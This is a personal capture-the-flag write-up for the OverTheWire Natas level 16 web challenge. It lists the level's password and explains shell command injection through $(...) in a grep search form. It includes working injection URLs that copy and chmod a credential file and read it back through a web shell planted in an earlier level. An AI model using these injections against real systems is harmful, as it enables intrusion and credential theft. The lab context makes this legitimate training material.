 Challenge page is <a href="http://www.overthewire.org/wargames/natas/natas16.shtml">HERE</a>.

<<CHALLENGE_CONTENT
Level 16

Username: natas16
URL:      http://natas16.natas.labs.overthewire.org

CHALLENGE_CONTENT

Password for this level (from last level)
	- username: natas16
	- password: 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr3L

Comment by me:
	- It is the submit form that send value into 'grep -i "$key" dictionary.txt' command
	- Now it filter for
		- not empty string
		- must not conntain [;|&`\'"]
	- Available way to do is to use Bash scripting with $(...)
		- when enclose $( ) to a command, it executes the command inside and output results as string, in-place of the command
		ex. echo "A$(date)B";  results as "AWed Dec  5 03:08:18 ICT 2012B"
	- But if we executes $(cat /etc/natas_webpass/natas17), Grep command does not print it out.
	- The idea is to let the grep runs, but we have to figure out which word is grep.
	- Obstructions are:
		- password is 32 characters long, with upper case, lower case and digits
		- 'grep -i' will match without looking at the case.
		- the 'dictionary.txt' does not contain digits to match with.
	- First try: with '^$(cut -b 1 /etc/natas_webpass/natas17)'
		- will grep single character from the file, then grep only the first character matched
		- result: '_hbzt_ljtpagmayvnfz_chzvq__oepsx'
		- problem: 
			- number will not display
			- character case is unknown, dues to the '-i' flag on grep command
	- Second try: with shell from Level12 and Level13
		- use the command to copy the password file to /tmp
		http://natas16.natas.labs.overthewire.org/?needle=$(cp /etc/natas_webpass/natas17 /tmp/anidear.txt)&submit=Search
		- change the file permission so that other user can read (so level12 or level13 can read)
		http://natas16.natas.labs.overthewire.org/?needle=$(chmod 444 /tmp/anidear.txt)&submit=Search
		- read the file with shell
		http://natas13.natas.labs.overthewire.org/upload/v960x3n9yu.php?cmd=cat%20/tmp/anidear.txt

	- Optional, to verify that the file exists, we can use:
	 http://natas16.natas.labs.overthewire.org/?needle=^$(if [ -f /tmp/anidear.txt ]%0athen%0aecho A%0aelse%0aecho %0afi)&submit=Search
	 	- if file exists, grep results in all words starting with A, if not, words starting with B

